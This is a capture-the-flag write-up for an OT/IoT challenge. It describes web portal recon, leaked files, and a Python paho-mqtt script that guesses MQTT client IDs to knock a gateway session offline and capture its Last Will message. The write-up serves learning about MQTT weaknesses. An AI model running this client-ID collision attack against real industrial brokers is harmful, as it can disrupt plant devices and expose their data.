

# Challenge Name: Last Will
**Category:** OT/IoT
**Points:** 20
**Difficulty:** Medium

### Description
GreenLeaf migrated its plant telemetry to an old protocol based IIoT gateway last quarter. The contractor who set it up left the engagement early, ops has been finding undocumented pieces of the deployment ever since, and nobody's fully sure what's still running out there. You've been given network access to the plant's environment. Find the flag!

- Web Portal: `kicyber-cdd9a76da747-lastwill-0-0.chals.io`
- Plant Gateway: `0.cloud.chals.io:17339`

### Approach
1. Recon'd the web portal first — found a decoy login form with no real backend (submit handler just showed a static "Invalid username or password" message, no network request).
2. Ran `gobuster` against the portal and found a `/pub/` directory listing containing backups, docs, and logs.
3. Read every leaked file carefully. `notes.txt` turned out to be the key:
   - MQTT topics starting with `$` are broker-reserved and hidden from wildcard (`#`) subscriptions.
   - If a second client connects with the **same Client ID** as an already-connected client, the broker force-disconnects the original — which triggers that client's **Last Will and Testament (LWT)** message.
4. Confirmed the service was MQTT (not Modbus) from `gateway_startup.log`, running on the non-standard port `17339`.
5. Subscribed to `#` to baseline normal traffic — only saw `plant/sensors/*` topics (simulated sensor spam).
6. The config backup suggested device ID `GL-GW-001`, but repeated attempts to connect with that Client ID caused **no collision** — it was a decoy value from the config file, not the real MQTT client ID.

### Solution
Wrote a Python script using `paho-mqtt` to:
1. Run a persistent listener subscribed to `#`, flagging any topic outside the known sensor baseline.
2. Sweep a list of plausible Client ID guesses (`GL-GW-001`, `gateway-001`, `greenleaf-gateway`, etc.), connecting briefly as each one.

```python
import paho.mqtt.client as mqtt
import time

HOST = "0.cloud.chals.io"
PORT = 17339
baseline = {"plant/sensors/tank1/level","plant/sensors/tank2/level",
"plant/sensors/pump2/rpm","plant/sensors/pump4/rpm",
"plant/sensors/compressor1/pressure","plant/sensors/valve3/state"}

def on_message(client, userdata, msg):
    if msg.topic not in baseline:
        print(f">>> NEW TOPIC: {msg.topic} :: {msg.payload}")

listener = mqtt.Client(client_id="watcher")
listener.on_message = on_message
listener.connect(HOST, PORT, keepalive=30)
listener.subscribe("#")
listener.loop_start()
time.sleep(3)

candidates = ["GL-GW-001","gl-gw-001","gateway-001","gateway01",
"greenleaf-gateway","iot-gateway","plant-gateway"]

for cid in candidates:
    print(f"--- trying {cid} ---")
    try:
        k = mqtt.Client(client_id=cid)
        k.connect(HOST, PORT, keepalive=5)
        k.loop_start()
        time.sleep(2.5)
        k.loop_stop()
        k.disconnect()
    except Exception as e:
        print(e)
    time.sleep(1.5)

time.sleep(5)
listener.loop_stop()
listener.disconnect()
```

The Client ID `gateway-001` collided with the real session, forcing it off the broker and triggering its Last Will message on `plant/gateway/heartbeat_lost`. The payload was base64-encoded:

```bash
echo "<base64 payload>" | base64 -d
```

### Flag
`[REDACTED]`

### Proof


### What I Learned
- MQTT's `$`-prefixed topics (like `$SYS/#`) are excluded from wildcard subscriptions by spec — a broker can hide diagnostic/internal topics this way, but they're still subscribable by their exact literal name.
- The **Last Will and Testament** mechanism is a legitimate MQTT feature (lets a broker notify other clients if a device drops unexpectedly) but becomes a vulnerability when combined with predictable/guessable Client IDs — an attacker can force a device offline and read its "I'm dead" message, which may leak sensitive data if misused as a data channel.
- Don't trust config files at face value — the "device ID" documented in a backup config was a decoy; the real MQTT client ID had to be brute-forced.
- Automating ID/topic sweeps with a script is far more reliable than manual one-by-one CLI testing, especially when timing windows matter (catching a transient LWT message).
